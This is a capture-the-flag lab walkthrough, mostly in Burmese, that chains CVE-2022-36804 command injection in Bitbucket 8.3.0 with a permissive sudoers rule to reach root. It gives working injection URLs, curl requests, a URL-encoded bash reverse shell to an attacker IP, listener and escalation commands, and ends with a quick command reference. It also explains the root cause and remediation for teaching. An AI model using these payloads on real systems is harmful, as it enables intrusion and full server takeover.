

> **Responsible Use Note**  
> ဤ walkthrough သည် **authorized CTF/lab environment** အတွက်သာ ရည်ရွယ်ပါသည်။ ကိုယ်ပိုင်မဟုတ်သော system, public server, company system များတွင် ခွင့်ပြုချက်မရှိဘဲ မစမ်းသပ်ရပါ။

## 1. Machine Overview

| Item | Detail |
|---|---|
| Machine | CVE-2022-36804 Lab |
| Target Type | Standalone Web Machine |
| Main Service | Atlassian Bitbucket |
| Main Vulnerability | CVE-2022-36804 Remote Code Execution |
| Initial Access | Bitbucket archive API command execution |
| Privilege Escalation | Misconfigured `sudoers` permission |
| Final Objective | Root access and `proof.txt` |

ဒီ lab မှာ web service တစ်ခုဖြစ်တဲ့ **Atlassian Bitbucket** ကို enumerate လုပ်ပြီး version information ကို identify လုပ်ပါမယ်။ Version ကိုသိပြီးနောက် CVE-2022-36804 နဲ့ mapping လုပ်ကာ command execution ရနိုင်/မရနိုင် စမ်းသပ်ပါမယ်။

Command execution ရသွားရင် reverse shell ရယူပြီး `atlbitbucket` user အနေနဲ့ target machine ထဲဝင်ပါမယ်။ ထို့နောက် `sudoers` misconfiguration ကိုအသုံးချပြီး root privilege သို့ escalate လုပ်ပါမယ်။

## 2. Lab Setup

### 2.1 Environment Variables

အောက်က value တွေကို ကိုယ့် lab environment အတိုင်း ပြောင်းသုံးပါ။ Code block ထဲမှာ command တွေကို line အစကနေစရေးထားတာကြောင့် GitHub Pages မှာ spacing ပိုသပ်ရပ်စွာ ပြပါလိမ့်မယ်။

```shell
export TARGET="10.230.78.148"
export RHOST="http://$TARGET:7990"
export LHOST="192.168.49.78"
export LPORT="9090"
export PROJECT="TEST"
export REPO="test_repository"
```

| Variable | Meaning |
|---|---|
| `TARGET` | Target machine IP |
| `RHOST` | Bitbucket web URL |
| `LHOST` | Attacker machine IP |
| `LPORT` | Reverse shell listener port |
| `PROJECT` | Bitbucket project name |
| `REPO` | Bitbucket repository name |

### 2.2 Required Tools

- `nmap`
- `curl`
- `nc`
- `python3`
- Web browser

ဒီ tools တွေက enumeration, HTTP request testing, reverse shell listener, shell stabilization တို့အတွက် လိုအပ်ပါတယ်။

## 3. Attack Chain Summary

### 3.1 Text Flow

```text
Nmap scan
→ Port 7990 web service found
→ Open Bitbucket web page
→ Identify Atlassian Bitbucket v8.3.0
→ Find project and repository
→ Test CVE-2022-36804 using archive API
→ Confirm command execution with id
→ Start Netcat listener
→ Send URL-encoded bash reverse shell payload
→ Get shell as atlbitbucket
→ Check sudo permissions with sudo -l
→ Find NOPASSWD: ALL
→ Escalate to root
→ Read /root/proof.txt
```

Attack chain ရဲ့ logic က target မှာ ဖွင့်ထားတဲ့ service တွေကို အရင်သိအောင် scan လုပ်ခြင်းကစပါတယ်။ Web service ဖြစ်တဲ့ port `7990` မှာ Bitbucket ကိုတွေ့ပြီး version `8.3.0` ကို identify လုပ်နိုင်ပါတယ်။ ဒီ version ကို CVE-2022-36804 နဲ့ mapping လုပ်ပြီး archive API မှတစ်ဆင့် command execution ရနိုင်ကြောင်း `id` command နဲ့စစ်ပါတယ်။ RCE confirmed ဖြစ်သွားရင် reverse shell payload ပို့ပြီး `atlbitbucket` user shell ရယူပါတယ်။ နောက်ဆုံးမှာ `sudo -l` မှာ `NOPASSWD: ALL` တွေ့ရတာကြောင့် root shell ရယူနိုင်ပါတယ်။

### 3.2 Visual Flow



## 4. Enumeration Phase

### 4.1 Full TCP Port Scan

```shell
nmap -p- -sV -sC $TARGET --open
```

| Option | Purpose |
|---|---|
| `-p-` | TCP port `1` မှ `65535` အထိ scan လုပ်မယ် |
| `-sV` | Service version detect လုပ်မယ် |
| `-sC` | Default NSE scripts run လုပ်မယ် |
| `--open` | Open ports တွေကိုသာ ပြမယ် |

Port scan လုပ်ရတဲ့ ရည်ရွယ်ချက်က target machine မှာ attacker အနေနဲ့ interact လုပ်နိုင်တဲ့ attack surface တွေကို သိဖို့ဖြစ်ပါတယ်။ Attack surface မသိဘဲ exploit စမ်းတာက မျက်စိမှိတ်ပြီးတိုက်သလိုဖြစ်နိုင်ပါတယ်။

### 4.2 Important Result

```text
PORT      STATE  SERVICE
22/tcp    open   ssh
5701/tcp  open   unknown
7990/tcp  open   http-like service
```

### 4.3 Reading the Result

`22/tcp` သည် SSH ဖြစ်ပါတယ်။ Credential မရှိသေးတဲ့အချိန်မှာ direct login အတွက် အသုံးမဝင်သေးပါ။ `5701/tcp` သည် unknown service ဖြစ်ပြီး နောက်မှပိုပြီးစစ်နိုင်ပါတယ်။ `7990/tcp` သည် HTTP-like web service ဖြစ်ပြီး Bitbucket UI ဖြစ်နိုင်တဲ့အတွက် ပထမဆုံး web enumeration လုပ်သင့်တဲ့နေရာဖြစ်ပါတယ်။

## 5. Web Enumeration

### 5.1 Open the Web Service

Browser မှာ target web service ကို ဖွင့်ပါ။

```text
http://10.230.78.148:7990/
```

Variable ကိုသုံးပြီးစစ်ချင်ရင် အောက်ပါ URL ကို concept အနေနဲ့သုံးနိုင်ပါတယ်။

```text
http://$TARGET:7990/
```

Browser မှာကြည့်တဲ့အခါ Bitbucket web interface ပေါ်လာပြီး footer သို့မဟုတ် page information ထဲမှာ **Atlassian Bitbucket v8.3.0** ဆိုတဲ့ version information ကို တွေ့နိုင်ပါတယ်။

### 5.2 Why Version Information Matters

Version information သည် vulnerability research အတွက် အရေးကြီးတဲ့ clue ဖြစ်ပါတယ်။ Product နာမည်နဲ့ version ကိုသိရင် public advisory, exploit note, CVE mapping တွေကိုရှာနိုင်ပါတယ်။

```text
Product: Atlassian Bitbucket
Version: 8.3.0
```

ဒီလိုတွေ့ရင် အောက်ပါ keyword တွေဖြင့် research လုပ်နိုင်ပါတယ်။

```text
Bitbucket 8.3.0 exploit
Bitbucket 8.3.0 CVE
CVE-2022-36804 Bitbucket
```

Version disclosure ကိုယ်တိုင်က RCE မဟုတ်ပါ။ သို့သော် attacker ကို correct exploit path ရွေးနိုင်အောင် ကူညီပေးတာကြောင့် security risk ဖြစ်ပါတယ်။

### 5.3 Project and Repository Information

CVE-2022-36804 ကိုစမ်းဖို့ Bitbucket project name နှင့် repository name လိုအပ်ပါတယ်။ ဒီ lab မှာအသုံးပြုမယ့် values က အောက်ပါအတိုင်းဖြစ်ပါတယ်။

| Name | Value |
|---|---|
| Project | `TEST` |
| Repository | `test_repository` |

ဒီ value နှစ်ခုမှန်မှ archive API endpoint ကို တိတိကျကျခေါ်နိုင်ပါမယ်။

## 6. Vulnerability Root Cause

### 6.1 Where the Issue Exists

CVE-2022-36804 သည် Bitbucket Server/Data Center ရဲ့ repository archive download function နဲ့ဆိုင်တဲ့ Remote Code Execution vulnerability ဖြစ်ပါတယ်။ Bitbucket မှာ repository ကို archive file အဖြစ် download လုပ်ပေးတဲ့ API endpoint ရှိပါတယ်။

```text
/rest/api/latest/projects/<PROJECT>/repos/<REPO>/archive
```

ဒီ endpoint က internal side မှာ `git archive` command ကိုသုံးပြီး repository archive file ထုတ်ပေးပါတယ်။

### 6.2 Why It Becomes RCE

Problem ဖြစ်ရတဲ့အကြောင်းရင်းက HTTP request parameter ထဲက value တချို့ကို backend command ထဲသို့ လုံခြုံစွာ sanitize မလုပ်ဘဲ pass လုပ်နိုင်တာကြောင့်ဖြစ်ပါတယ်။ Lab exploit မှာ `prefix` parameter ထဲက input ကို manipulate လုပ်ပြီး `--exec=$(command)` ပုံစံ argument ထည့်နိုင်ပါတယ်။

```text
User-controlled HTTP input
→ archive API receives parameter
→ backend builds git archive command
→ attacker injects command option
→ server executes attacker-controlled command
```

ရိုးရိုးဥပမာနဲ့ပြောရရင် user က filename ပဲပေးရမယ့်နေရာမှာ command option ပါထည့်ပေးလိုက်ပြီး application က အဲဒီ input ကို စစ်မထားဘဲ backend command ထဲထည့် run လိုက်တာဖြစ်ပါတယ်။ ဒါကြောင့် attacker က `id`, `whoami`, reverse shell payload စတဲ့ OS command တွေ run နိုင်သွားပါတယ်။

### 6.3 Security Impact

ဒီ lab မှာ command သည် Bitbucket service account ဖြစ်တဲ့ `atlbitbucket` user အနေနဲ့ execute ဖြစ်ပါတယ်။ Root မဟုတ်သေးပေမယ့် application server ထဲကို initial foothold ရသွားတာဖြစ်ပါတယ်။ Web RCE တစ်ခုက local privilege escalation weakness နဲ့ chain ဖြစ်သွားရင် full root compromise အထိ ဖြစ်သွားနိုင်ပါတယ်။

## 7. Confirm Remote Code Execution

### 7.1 Safe Test Command

RCE ရနိုင်/မရနိုင်ကိုစစ်ရာမှာ destructive command မသုံးသင့်ပါ။ ပထမဆုံး `id` command နဲ့စမ်းတာက safe ဖြစ်ပြီး command ဘယ် user အနေနဲ့ run ဖြစ်သလဲ သိနိုင်ပါတယ်။

```text
http://10.230.78.148:7990/rest/api/latest/projects/TEST/repos/test_repository/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(id)%00--remote=origin
```

`curl` နဲ့စမ်းချင်ရင်:

```shell
curl -s "$RHOST/rest/api/latest/projects/$PROJECT/repos/$REPO/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(id)%00--remote=origin"
```

### 7.2 Expected Result

Response error ထဲမှာ အောက်ပါ output ပါလာနိုင်ပါတယ်။

```text
uid=1000(atlbitbucket)
```

Response က error ပုံစံဖြစ်နေလည်း `uid=1000(atlbitbucket)` ပါလာရင် `id` command execute ဖြစ်ပြီးသားပါ။ ဒီ vulnerability မှာ injected command run ဖြစ်ပြီးနောက် `git archive` ကိုယ်တိုင် fail ဖြစ်နိုင်တာကြောင့် error response ထဲမှာ command output leak ဖြစ်လာတာပါ။

| Output | Meaning |
|---|---|
| `uid=1000(atlbitbucket)` | Command execution confirmed |
| `CommandFailedException` | Git archive failed, but command output leaked |
| No command output | Payload, project, repo, target, or encoding issue ဖြစ်နိုင်သည် |

## 8. Reverse Shell Exploitation

### 8.1 Start Netcat Listener

Attacker machine မှာ listener စတင်ပါ။

```shell
nc -nlvp 9090
```

Variable သုံးမယ်ဆိုရင်:

```shell
nc -nlvp $LPORT
```

Reverse shell မှာ target machine က attacker machine ဆီကို connection ပြန်လာပါတယ်။ ဒါကြောင့် attacker side မှာ connection လက်ခံဖို့ listener ဖွင့်ထားရပါမယ်။

### 8.2 Raw Bash Payload

```shell
bash -c 'bash -i >& /dev/tcp/192.168.49.78/9090 0>&1'
```

| Part | Purpose |
|---|---|
| `bash -c` | Bash command တစ်ကြောင်းကို execute လုပ်မယ် |
| `bash -i` | Interactive bash shell ဖွင့်မယ် |
| `/dev/tcp/<IP>/<PORT>` | Attacker listener ဆီ TCP connection ပြန်ဖွင့်မယ် |
| `0>&1` | Input/output stream တွေကို TCP connection မှာ bind လုပ်မယ် |

### 8.3 URL-Encoded Payload

HTTP URL ထဲမှာ space, quote, `>`, `&`, `/` စတဲ့ special characters တွေရှိလို့ URL encoding လုပ်ရပါတယ်။

```text
bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.78%2F9090%200%3E%261%27
```

Encoding မှားရင် server က payload ကို command အဖြစ်မဖတ်နိုင်ပါ။ ဒါကြောင့် exploit URL ထဲထည့်မယ့် payload ကို URL-safe ဖြစ်အောင် ပြောင်းရပါတယ်။

### 8.4 Trigger the Reverse Shell

Browser သို့မဟုတ် `curl` နဲ့ အောက်ပါ URL ကိုခေါ်နိုင်ပါတယ်။

```text
http://10.230.78.148:7990/rest/api/latest/projects/TEST/repos/test_repository/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.78%2F9090%200%3E%261%27)%00--remote=origin
```

`curl` version:

```shell
curl -s "$RHOST/rest/api/latest/projects/$PROJECT/repos/$REPO/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.78%2F9090%200%3E%261%27)%00--remote=origin"
```

အချို့ shell တွေမှာ URL-encoded payload ထဲက `$LHOST` နဲ့ `$LPORT` variable expansion မလုပ်နိုင်တာရှိပါတယ်။ အလုပ်မလုပ်ရင် IP နဲ့ port ကို manual value အဖြစ်ထည့်သုံးပါ။

### 8.5 Confirm the Shell

Listener side မှာ connection ပြန်ဝင်လာရင် ဒီလိုမြင်ရနိုင်ပါတယ်။

```text
connect to [192.168.49.78] from (UNKNOWN) [10.230.78.148]
bash: cannot set terminal process group: Inappropriate ioctl for device
bash: no job control in this shell
```

Shell ထဲမှာ user context ကိုစစ်ပါ။

```shell
id
whoami
hostname
pwd
```

Expected output:

```text
uid=1000(atlbitbucket) gid=1000(atlbitbucket)
atlbitbucket
```

ဒီအဆင့်မှာ target machine ထဲကို `atlbitbucket` user အနေနဲ့ဝင်နိုင်သွားပါပြီ။ ဒါဟာ initial shell ဖြစ်ပြီး root privilege မရသေးပါ။

## 9. Shell Stabilization

### 9.1 Check Python

```shell
which python3
```

Python3 ရှိရင် pseudo-terminal spawn လုပ်နိုင်ပါတယ်။

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 9.2 Improve Terminal Behavior

Attacker terminal မှာ:

```text
CTRL+Z
```

ပြီးရင်:

```shell
stty raw -echo; fg
reset
```

Terminal type မေးရင်:

```text
xterm
```

ပြီးနောက်:

```shell
export TERM=xterm
stty rows 40 columns 120
```

Stable shell ရှိရင် command output ကြည့်ရလွယ်ပြီး `sudo`, `su`, text editor, tab completion, Ctrl+C စတာတွေ ပိုကောင်းကောင်းအသုံးပြုနိုင်ပါတယ်။

## 10. Privilege Escalation Enumeration

### 10.1 Check Sudo Permission

Initial shell ရပြီးနောက် local privilege escalation အတွက် `sudo -l` ကိုစစ်ပါ။

```shell
sudo -l
```

Expected output:

```text
User atlbitbucket may run the following commands on bitbucket:
    (ALL : ALL) NOPASSWD: ALL
```

### 10.2 Reading the Sudo Rule

| Setting | Meaning |
|---|---|
| `(ALL : ALL)` | Any user/group context အနေနဲ့ run နိုင်တယ် |
| `NOPASSWD` | Password မလိုဘဲ sudo run နိုင်တယ် |
| `ALL` | Any command run နိုင်တယ် |

အဓိပ္ပါယ်က `atlbitbucket` user သည် root command အားလုံးကို password မလိုဘဲ run နိုင်တယ်ဆိုတာပါ။ Service account တစ်ခုအတွက် ဒီ permission သည် အလွန်အန္တရာယ်များတဲ့ misconfiguration ဖြစ်ပါတယ်။

ဒီလို issue ဖြစ်ရတဲ့အကြောင်းရင်းတွေက testing/debugging အတွက် temporary permission ပေးပြီးမဖယ်ခဲ့ခြင်း၊ service account ကို over-privileged ပေးထားခြင်း၊ least privilege principle မလိုက်နာခြင်း၊ sudoers file review မလုပ်ခြင်းတို့ကြောင့် ဖြစ်နိုင်ပါတယ်။

## 11. Escalate to Root

### 11.1 Get Root Shell

`NOPASSWD: ALL` ရှိနေတဲ့အတွက် root shell ကို password မလိုဘဲ ရယူနိုင်ပါတယ်။

```shell
sudo su
```

သို့မဟုတ်:

```shell
sudo -i
```

### 11.2 Confirm Root Access

```shell
id
whoami
```

Expected output:

```text
uid=0(root) gid=0(root) groups=0(root)
root
```

ဒီအဆင့်က exploit တစ်ခုအသစ်မဟုတ်ပါ။ `sudoers` configuration weakness ကိုအသုံးချပြီး root shell ရယူတာဖြစ်ပါတယ်။

## 12. Find and Read Proof File

### 12.1 Locate Proof File

```shell
find / -iname '*proof.txt*' 2>/dev/null
```

Expected result:

```text
/root/proof.txt
```

### 12.2 Read Proof File

```shell
cat /root/proof.txt
```

Root shell ရပြီးနောက် `/root` directory အတွင်းရှိ proof file ကိုဖတ်နိုင်ပါတယ်။

## 13. Troubleshooting

### 13.1 No Reverse Shell Received

အရင်ဆုံး attacker IP မှန်/မမှန် စစ်ပါ။

```shell
ip addr
```

`LHOST` သည် VPN interface IP ဖြစ်ရမလား၊ normal LAN IP ဖြစ်ရမလား စစ်ပါ။ Listener port `LPORT` မှန်/မမှန်၊ firewall block ဖြစ်နေ/မနေ၊ URL encoding မပျက်/မပျက်ကိုလည်း စစ်ပါ။

### 13.2 No `id` Output in Response

Project name `TEST` နှင့် repository name `test_repository` မှန်/မမှန် စစ်ပါ။ Endpoint path, target IP, vulnerable version, payload encoding တို့ကိုလည်း ပြန်စစ်ပါ။ Response က error ဖြစ်ပေမယ့် `uid=1000(atlbitbucket)` မပါရင် command execution confirmed မဟုတ်သေးပါ။

### 13.3 `sudo -l` Asks for Password

ဒီ walkthrough ထဲက privilege escalation path သည် `NOPASSWD: ALL` misconfiguration ပေါ်မူတည်ပါတယ်။ Password တောင်းနေရင် lab instance မတူနိုင်ပါတယ် သို့မဟုတ် user permission မရှိနိုင်ပါ။

## 14. Root Cause and Remediation

### 14.1 Root Cause Summary

| Issue | Risk |
|---|---|
| Vulnerable Bitbucket version | Remote Code Execution |
| Archive API input handling weakness | Command injection |
| Version disclosure | Easier vulnerability mapping |
| Over-privileged service account | Easy privilege escalation |
| `NOPASSWD: ALL` sudoers rule | Full root compromise |

### 14.2 Recommended Remediation

Vulnerable Bitbucket version ကို vendor-fixed version သို့ upgrade လုပ်သင့်ပါတယ်။ Bitbucket service ကို public internet သို့တိုက်ရိုက်မဖွင့်ဘဲ VPN, internal network, IP allowlist စနစ်များဖြင့် restrict လုပ်သင့်ပါတယ်။

Dangerous sudoers rule ကိုဖယ်ရှားသင့်ပါတယ်။

```text
atlbitbucket ALL=(ALL:ALL) NOPASSWD: ALL
```

အစား exact required command များသာ allow လုပ်သင့်ပြီး service account ကို root-level permission မပေးသင့်ပါ။ Suspicious archive API request များဖြစ်တဲ့ `%00`, `--exec`, `/dev/tcp`, `bash -c` စသည်တို့ကို logging/monitoring လုပ်သင့်ပါတယ်။ Product version disclosure ကို public UI ထဲမှာ မပြသအောင် hardening လုပ်သင့်ပါတယ်။

## 15. Key Learning Points

ဒီ lab မှာ beginner cybersecurity student အနေနဲ့ သိထားသင့်တဲ့ lesson တွေက port scanning သည် attack surface ကိုသိရန် အခြေခံဆုံးအဆင့်ဖြစ်ခြင်း၊ version disclosure သည် exploit research အတွက် အရေးကြီးခြင်း၊ RCE ကို confirm လုပ်ရာတွင် `id` command သည် safe and useful ဖြစ်ခြင်း၊ reverse shell payload တွင် URL encoding မှန်ကန်မှု အလွန်အရေးကြီးခြင်းတို့ဖြစ်ပါတယ်။

Initial shell ရတာနဲ့ root မဟုတ်သေးပါ။ Linux privilege escalation အတွက် `sudo -l` သည် အရေးကြီးပြီး `NOPASSWD: ALL` သည် critical misconfiguration ဖြစ်ပါတယ်။ Patch management နှင့် least privilege control မရှိပါက web vulnerability တစ်ခုက root compromise အထိ chain ဖြစ်သွားနိုင်ပါတယ်။

## 16. Quick Command Reference

```shell
export TARGET="10.230.78.148"
export RHOST="http://$TARGET:7990"
export LHOST="192.168.49.78"
export LPORT="9090"
export PROJECT="TEST"
export REPO="test_repository"

nmap -p- -sV -sC $TARGET --open

curl -s "$RHOST/rest/api/latest/projects/$PROJECT/repos/$REPO/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(id)%00--remote=origin"

nc -nlvp $LPORT

curl -s "$RHOST/rest/api/latest/projects/$PROJECT/repos/$REPO/archive?filename=xxx&at=xx&path=xx&prefix=ax%00--exec=%24(bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.49.78%2F9090%200%3E%261%27)%00--remote=origin"

id
whoami

sudo -l
sudo su
id

find / -iname '*proof.txt*' 2>/dev/null
cat /root/proof.txt
```

## 17. Final Summary

ဒီ machine ရဲ့ compromise path က `Bitbucket v8.3.0 → CVE-2022-36804 RCE → reverse shell as atlbitbucket → sudoers misconfiguration → root shell → proof.txt` ဖြစ်ပါတယ်။

အဓိက lesson က vulnerability တစ်ခုတည်းကြောင့် root compromise ဖြစ်တာမဟုတ်ပါ။ Web RCE နှင့် Linux sudoers misconfiguration နှစ်ခု chain ဖြစ်သွားတာကြောင့် full system compromise ဖြစ်သွားတာဖြစ်ပါတယ်။
